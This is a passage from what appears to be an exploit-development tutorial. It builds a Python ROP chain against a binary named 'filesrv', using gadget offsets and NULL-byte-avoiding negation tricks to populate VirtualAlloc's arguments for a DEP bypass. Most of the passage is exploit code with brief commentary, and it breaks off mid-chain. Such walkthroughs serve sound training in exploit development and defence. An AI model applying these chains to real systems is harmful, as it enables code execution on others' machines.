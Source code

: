 Now it's time to set up the _lpAddress_ parameter of VirtualAlloc, and since this should be the same value we calculated before, we can just do the same this time. We will subtract 0x3f0-4 to compensate for this (since we increased the stub-pointer by 4)

```python
rop += p32(filesrv+0x0003e7d2) # mov eax, ecx; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xfffffc14) #0x3f0-4
rop += p32(filesrv+0x00059a05) # sub eax, edx; pop ebp; ret;)
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Awesome, now we are ready to increase the stub-pointer again and move to the next argument.

```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```

We need to set _dwsize_ to 1, since we want to avoid NULL bytes, we can pop -1 to a register and then use a gadget to negate it, and then move it to the stub, as shown below.

```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(0xffffffff) #-1
rop += p32(filesrv+0x00031630) # neg eax; pop ebp; ret;
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```
Time to increase the stub-pointer...

```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```
Let's set up now the _flAllocationType_ argument to 0x1000. Nothing fancy here. Just the same we are doing  negating the value and then increasing it (to avoid NULL and/or badchars)

```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(0xffffefff) #-0x1001
rop += p32(filesrv+0x00031630) # neg eax; pop ebp; ret;
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x000774c6) # dec eax; ret
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Let's move forward in our stub-pointer! We are close...

![](https://i.kym-cdn.com/entries/icons/original/000/009/976/First_World_Problems.jpg)

